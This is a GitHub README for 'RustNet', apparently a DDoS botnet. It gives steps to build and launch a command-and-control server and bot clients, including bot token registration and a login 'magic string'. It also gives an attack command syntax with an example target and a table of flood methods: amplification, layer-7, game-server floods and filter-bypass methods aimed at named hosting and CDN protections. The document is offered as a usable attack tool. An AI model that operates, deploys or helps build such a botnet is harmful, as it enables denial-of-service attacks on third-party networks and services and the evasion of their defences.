

## Key Features

This is a improvised and just a overall better overhaul of BotnetGoV2.

*   **High-Performance Architecture**
*   **End-to-End Encryption**: Enforces encryption for all communications, ensuring traffic opacity.
*   **Cross-Platform Compatibility**: Native support for Linux (including WSL) and Windows environments.
*   **Modular Design**: 
*   **Advanced Management**:
    *   Role-Based Access Control (RBAC) with hierarchical permissions (Owner, Admin, Ba   sic).
    *   Real-time bot health monitoring and telemetry.
    *   Persistent SQLite database for user management and audit logging.

##  System Architecture

### Network Topology


*   **OpenSSL**: Required for generating TLS certificates and establishing secure admin connections.
    *   *Linux*: `sudo apt install openssl libssl-dev`
    *   *Windows*: Install via vcpkg or Chocolatey.

### Server Configuration

The server acts as the central controller. It requires a configuration file and TLS certificates.

1.  **Build the Server**:
    ```bash
    cd server
    cargo build --release
    ```

2.  **TLS Certificate Generation**:
    The server requires `cert.pem` and `key.pem` in the root directory. Generate self-signed certificates for secure communication:
    ```bash
    openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem 
     -days 365 -nodes -subj "/CN=RustNet Server"
    ```
    *Note: The server can auto-generate these if missing (when `strict_tls = false`), but manual generation is recommended for production.*

3.  **Configuration**:
    Ensure `config/server.toml` exists. Default ports are `1420` (Admin) and `7002` (Bot).
    ```toml
    [server]
    user_port = 1420
    bot_port = 7002
    enable_tls = true
    login_magic_string = "loginforme"  # Critical for authentication
    ```

4.  **Launch**:
    ```bash
    ./target/release/rustnet-server
    ```

### 3. Client (Bot) Configuration

The client connects to the server to execute commands.

1.  **Build the Client**:
    ```bash
    cd client
    cargo build --release
    ```

2.  **Configuration Files**:
    Create the following files in the client's execution directory:
    *   `c2_address.txt`: The Server IP and Bot Port (e.g., `127.0.0.1:7002`).
    *   `bot_token.txt`: A unique authentication token.
        *   *Generation*: Log into the server as Owner and run `regbot <arch>` to generate a valid token.

3.  **Launch**:
    ```bash
    ./target/release/rustnet-client
    ```


### Connecting to the Server
Since the server enforces TLS, standard Telnet/Netcat clients will not work. You must use a TLS-capable client like OpenSSL.

**Connection Command:**
```bash
openssl s_client -connect localhost:1420 -quiet
```

**Authentication Flow:**
1.  **Handshake**: Upon connection, the server will display the banner.
2.  **Magic String**: You must immediately type the configured magic string (Default: `loginforme`) and press Enter.
3.  **Credentials**: Enter your Username and Password when prompted.


#### Attack Execution

**Syntax:**
```text
attack <method> <target_ip> <port> <duration>
```

**Example:**
```text
attack UDP 192.168.1.50 80 60
```

### Supported Attack Vectors

| Category | Methods | Description |
|----------|---------|-------------|
| **Layer 4** | `UDP`, `TCP`, `SYN`, `ACK` | Standard volumetric packet floods. |
| **Layer 4 (Adv)** | `UDPMAX`, `UDPSMART`, `GRE`, `ICMP` | Optimized high-throughput floods. |
| **Amplification** | `DNS`, `DNSL4`, `AMPLIFICATION` | Reflection-based attacks (requires spoofing support). |
| **Layer 7** | `HTTP`, `SLOWLORIS`, `STRESS` | Application layer resource exhaustion. |
| **Protocol Specific** | `TLS`, `WEBSOCKET`, `SIP` | Targeted protocol floods. |
| **Game Services** | `MINECRAFT`, `RAKNET`, `FIVEM`, `TS3`, `DISCORD` | Specialized payloads for game servers and VoIP. |
| **Bypass** | `STD`, `VSE`, `OVH`, `NFO`, `BYPASS`, `CF`, `CFBYPASS` | Methods designed to evade specific mitigation filters. |


This project is distributed under the MIT License. See the `LICENSE` file for details.
